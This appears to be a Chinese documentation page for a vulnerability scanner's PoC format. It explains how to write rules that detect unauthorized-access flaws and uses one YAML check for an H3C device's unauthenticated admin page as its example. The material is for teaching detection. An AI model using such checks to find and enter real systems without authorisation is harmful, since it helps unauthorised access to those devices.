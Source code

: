 ```yaml
---
title: '未授权访问/越权'
description: '这个类型的poc所匹配的内容非常不固定，这里给出在验证中大致需要注意的问题'
---
```


- 所访问的path一定是对应漏洞的path
- 所匹配的页面内容尽可能地突出当发生未授权访问或者越权时，这个页面中出现了什么特殊的内容
- 如果上述匹配的特征过少或者规则稍弱，建议增加指纹等的验证规则

这里举出审核中遇见的例子进行讲解

## H3C Unauth

```yaml
name: poc-yaml-test-unauth
manual: true
transport: http
rules:
	r1:
		request:
			cache: true
			method: GET
			path: /home.asp?userLogin.asp
		expression: response.status == 200 && response.body.bcontains(b"user_expire_time=") && response.body.bcontains(b"maintain_basic.asp") && "Server" in response.headers && response.headers["Server"].contains("H3C-Miniware-Webs")
expression: r1()
detail:
	author: Chaitin
	links:
		- http://example.com
```

- `"Server" in response.headers && response.headers\["Server"\].contains("H3C-Miniware-Webs")` 说明了需要验证的对象就是H3C系列的服务
- `response.body.bcontains(b"maintain_basic.asp")` 以及 `response.body.bcontains(b"user_expire_time=")` 说明了当发生未授权访问时，页面中相对于授权时会多出的内容
- 同时`response.status == 200`尽可能地剔除了访问时产生404的页面，一定程度上节省开支

## 模板

[未授权类](/plugins/practice/poc/Template#unauth)
